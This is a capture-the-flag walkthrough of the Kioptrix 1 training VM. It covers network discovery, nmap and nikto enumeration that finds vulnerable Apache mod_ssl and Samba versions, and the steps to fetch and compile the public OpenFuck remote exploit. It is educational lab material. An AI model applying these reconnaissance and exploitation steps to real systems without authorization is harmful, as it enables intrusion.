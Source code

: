 ```yaml
---
layout: post
title: Kioptrix 1 Walkthrough
---
```


Kioptrix VMs are meant as entry level pentest challenges where the goal is to get root privileges.
Download [Kioptrix 1 here](http://www.kioptrix.com/blog/test-page/) or from [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#download).

<h3>Finding the Host</h3>

Using <code>netdiscover</code> the IP address of the target is found.

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># netdiscover -r 192.168.201.0/24 -i eth0

 Currently scanning: Finished!   |   Screen View: Unique Hosts        
 19 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1140
 _________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname  
 -------------------------------------------------------------------------
 192.168.201.1   00:50:56:c0:00:08     14     840  VMware, Inc.
 192.168.201.2   00:50:56:fa:93:9d      3     180  VMware, Inc.
 <span class="out-line">192.168.201.132 00:0c:29:75:c4:41      1      60  VMware, Inc.</span>
 192.168.201.254 00:50:56:e2:0c:13      1      60  VMware, Inc.
</pre>

<h3>Enumeration</h3>

An <code>nmap</code> scan shows 6 open ports on the host:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># nmap -sV -p- -T4 192.168.201.132

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-07 17:02 EST
Nmap scan report for 192.168.201.132
Host is up (0.000076s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:75:C4:41 (VMware)
</pre>

<h3>Enumeration:80/tcp http</h3>

A <code>nikto</code> scan yields some useful information on the host's webserver:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># nikto -h 192.168.201.132
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.201.132
+ Target Hostname:    192.168.201.132
+ Target Port:        80
+ Start Time:         2017-12-12 15:01:51 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server leaks inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ ... (other nikto output) ...
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
<span class="out-highlight">+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</span>
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ ... (other nikto output) ...
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 21 item(s) reported on remote host
+ End Time:           2017-12-12 15:02:16 (GMT-5) (25 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
</pre>

Searching online for CVE-2002-0082 produces a corresponding PoC exploit: [Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow](https://www.exploit-db.com/exploits/764/)

<h3>Enumeration:139/tcp netbios-ssn</h3>

The samba version running on the host is identified using MSF's <code>smb_version</code> module:

<pre class="console-output">
<u>msf</u> auxiliary(<span class="prompt">smb_version</span>) > run

<span class="dir"><b>[*]</b></span> 192.168.201.132:139   - Host could not be identified: Unix (<span class="out-highlight">Samba 2.2.1a</span>)
<span class="dir"><b>[*]</b></span> Scanned 1 of 1 hosts (100% complete)
<span class="dir"><b>[*]</b></span> Auxiliary module execution completed
</pre>

Searching online for this samba version also yields an exploit:<br> [Samba < 2.2.8 (Linux/BSD) - Remote Code Execution](https://www.exploit-db.com/exploits/10/)<br>
MSF: [Samba trans2open Overflow (Linux x86)](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open)

<h3>Exploitation:80/tcp http</h3>

A copy of the OpenFuckV2.c is copied into the current dir, which contains [instructions on how to update](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) and compile it. Once updated, trying to compile in Kali Linux produces some errors using <code>gcc</code>:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># searchsploit -m 764
Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Exploit
    URL: https://www.exploit-db.com/exploits/764/
   Path: /usr/share/exploitdb/platforms/unix/remote/764.c

Copied to: /root/764.c

<span class="prompt">root@kali</span>:<span class="dir">~</span># ... (Steps Update OpenFuck Exploit) ...

<span class="prompt">root@kali</span>:<span class="dir">~</span># gcc -o OpenFuck 764.c -lcrypto
<b>764.c:645:24:</b> <span class="prompt">error:</span> ‘<b>SSL2_MAX_CONNECTION_ID_LENGTH</b>’ undeclared here (not in a function); did you mean ‘<b>SSL_MAX_SSL_SESSION_ID_LENGTH</b>’?
  unsigned char conn_id[<span class="prompt">SSL2_MAX_CONNECTION_ID_LENGTH</span>];
                        <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span>
                        <span class="out-green">SSL_MAX_SSL_SESSION_ID_LENGTH</span>
<b>764.c:</b> In function ‘<b>read_ssl_packet</b>’:
<b>764.c:847:19:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_ERROR</b>’ undeclared (first use in this function); did you mean ‘<b>SSL_METHOD</b>’?
    if ((buf[0] == <span class="prompt">SSL2_MT_ERROR</span>) && (rec_len == 3)) {
                   <span class="prompt">^~~~~~~~~~~~~</span>
                   <span class="out-green">SSL_METHOD</span>
<b>764.c:847:19:</b> <span class="out-teal">note:</span> each undeclared identifier is reported only once for each function it appears in
<b>764.c:</b> In function ‘<b>get_server_hello</b>’:
<b>764.c:979:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_HELLO</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_HELLO</b>’?
  if (*(p++) != <span class="prompt">SSL2_MT_SERVER_HELLO</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_HELLO</span>
<b>764.c:</b> In function ‘<b>send_client_master_key</b>’:
<b>764.c:1071:10:</b> <span class="prompt">error:</span> dereferencing pointer to incomplete type ‘<b>EVP_PKEY {aka struct evp_pkey_st}</b>’
  if (pkey<span class="prompt">-></span>type != EVP_PKEY_RSA) {
          <span class="prompt">^~</span>
<b>764.c:</b> In function ‘<b>get_server_verify</b>’:
<b>764.c:1148:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_VERIFY</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_HELLO</b>’?
  if (buf[0] != <span class="prompt">SSL2_MT_SERVER_VERIFY</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_HELLO</span>
<b>764.c:</b> In function ‘<b>send_client_finished</b>’:
<b>764.c:1160:11:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_CLIENT_FINISHED</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_FINISHED</b>’?
  buf[0] = <span class="prompt">SSL2_MT_CLIENT_FINISHED</span>;
           <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~</span>
           <span class="out-green">SSL3_MT_FINISHED</span>
<b>764.c:</b> In function ‘<b>get_server_finished</b>’:
<b>764.c:1173:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_FINISHED</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_DONE</b>’?
  if (buf[0] != <span class="prompt">SSL2_MT_SERVER_FINISHED</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_DONE</span>
</pre>

This can be solved by running <code>apt-get install libssl1.0-dev</code>.
